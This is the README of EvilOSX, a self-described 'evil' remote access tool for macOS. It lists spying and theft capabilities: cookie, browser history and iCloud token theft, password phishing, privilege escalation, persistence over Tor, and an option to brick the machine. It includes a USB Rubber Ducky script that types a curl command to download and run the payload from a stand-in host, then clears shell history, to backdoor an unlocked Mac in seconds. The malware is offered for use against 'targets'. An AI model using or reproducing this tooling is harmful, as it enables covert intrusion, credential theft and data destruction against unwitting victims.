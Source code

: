 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="https://i.imgur.com/rFz6SCe.png" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Access Tool) for macOS / OS X.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square" alt="License">
  </a>
  <a href="https://www.python.org">
      <img src="https://img.shields.io/badge/python-2.7,%203.7-blue.svg?style=flat-square" alt="Python">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg?style=flat-square" alt="Issues">
  </a>
  <a href="https://travis-ci.org/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/travis/Marten4n6/EvilOSX/master.svg?style=flat-square" alt="Build Status">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md">
      <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat-square" alt="Contributing">
  </a>
</p>

---

## Features

- **Anonymous** communications via [Tor](https://www.torproject.org/about/overview.html#thesolution) onion services
- **Encrypted** launchers using OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
- **No client dependencies**
  - Python comes pre-installed on macOS / OSX
- **Persistent** across system reboots
- **Extendable** [command](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md) system:
  - Take desktop screenshots
  - Retrieve Firefox cookies
  - Monitor the clipboard
  - Attempt to get root via local privilege escalation
  - Download and upload files
  - Retrieve browser history (Chrome and Safari)
  - Phish for the system password
  - Phish for iCloud passwords via iTunes
  - Enumerate iTunes backups
  - Update to the latest EvilOSX version
  - Remove EvilOSX (optionally bricking the system)
  - Retrieve iCloud tokens
    - Retrieve iCloud contacts
    - Retrieve Find My iPhone devices

## How To Use

[Click here to **download**](https://github.com/Marten4n6/EvilOSX/releases/latest) the latest stable version of EvilOSX.

### From Source

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Start the server
$ python start.py

# Lastly, run a built launcher on your target(s)
```

## Screenshots

![UI](https://i.imgur.com/7EKGLbB.png)

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/) <br/>
- Aluminum Keyboard (ISO) is probably the one you are looking for

## Versioning

EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Contributing

For a guide on how to create commands, click [here](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md).

## Issues

Feel free to submit any issues or feature requests [here](https://github.com/Marten4n6/EvilOSX/issues).

## References

- The awesome [Empire](https://github.com/EmpireProject) project
- Shout out to [Patrick Wardle](https://twitter.com/patrickwardle) for his awesome talks, check out [Objective-See](https://objective-see.com/)
- [Hiding In Plain Sight - Advances In Malware Covert Communication Channels](https://youtu.be/3o4sVGmf4Dk)
- [TinyTor](https://github.com/Marten4n6/TinyTor)
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
